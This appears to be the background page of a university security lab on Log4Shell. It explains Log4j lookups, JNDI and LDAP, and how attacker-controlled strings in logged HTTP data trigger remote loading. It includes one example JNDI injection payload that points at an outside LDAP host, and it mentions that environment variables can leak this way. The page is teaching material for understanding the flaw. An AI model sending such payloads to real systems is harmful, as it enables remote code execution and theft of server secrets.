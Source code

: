 ```yaml
---
layout: default
title: Background
nav_order: 2
parent: Project Log4Shell!
grand_parent: Projects
---
```

  
<div style="text-align:center">
  <span style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">BACKGROUND</span>
</div>

Log4J is a very popular open-source framework that allows application developers to log important messages such as program flow, program state, exceptions, etc. These messages can include user input, dynamic data, database results, etc.

Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) which allow for [string substitution](https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html) of certain strings. These are in the form of <span style="font-weight: bold">${prefix:name}</span> i.e. a common one would be <span style="font-weight: bold">${java:runtime}</span> and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. <span style="font-weight: bold">${jndi:\<lookup\>}</span> is a valid lookup expression recognized by the lookup by Log4J. 

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be <span style="font-weight: bold">${jndi:ldap://cs6035.com/exploitfile}</span> which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

![alt text](/images/Log4Shell.PNG)
